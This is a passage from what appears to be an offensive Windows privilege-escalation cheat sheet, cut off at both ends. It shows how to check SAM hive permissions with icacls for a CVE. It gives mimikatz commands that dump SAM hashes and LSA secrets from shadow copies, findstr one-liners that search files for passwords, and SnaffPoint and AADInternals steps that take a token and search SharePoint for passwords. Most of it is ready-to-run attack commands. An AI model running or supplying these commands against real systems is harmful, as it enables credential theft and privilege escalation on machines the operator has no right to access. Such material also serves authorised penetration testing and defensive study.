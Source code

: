 Check for the vulnerability using `icacls`

```powershell
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```powershell
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```

### LAPS Settings

Extract `HKLM\Software\Policies\Microsoft Services\AdmPwd` from Windows Registry.

* LAPS Enabled: AdmPwdEnabled
* LAPS Admin Account Name: AdminAccountName
* LAPS Password Complexity: PasswordComplexity
* LAPS Password Length: PasswordLength
* LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled

### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```

Also search in remote places such as SMB Shares and SharePoint:

* Search passwords in SharePoint: [nheiniger/SnaffPoint](https://github.com/nheiniger/SnaffPoint) (must be compiled first, for referencing issue see: [Pull #6](https://github.com/nheiniger/SnaffPoint/pull/6))

```powershell
# First, retrieve a token
## Method 1: using SnaffPoint binary
$token = (.\GetBearerToken.exe https://your.sharepoint.com)
## Method 2: using AADInternals
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
$token = (Get-AADIntAccessToken -ClientId "9bc3ab49-b65d-410a-85ad-de819febfddc" -Tenant "your.onmicrosoft.com" -Resource "https://your.sharepoint.com")

# Second, search on Sharepoint
## Method 1: using search strings in ./presets dir
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token
## Method 2: using search string in command line
### -l uses FQL search, see: https://learn.microsoft.com/en-us/sharepoint/dev/general-development/fast-query-language-fql-syntax-reference
```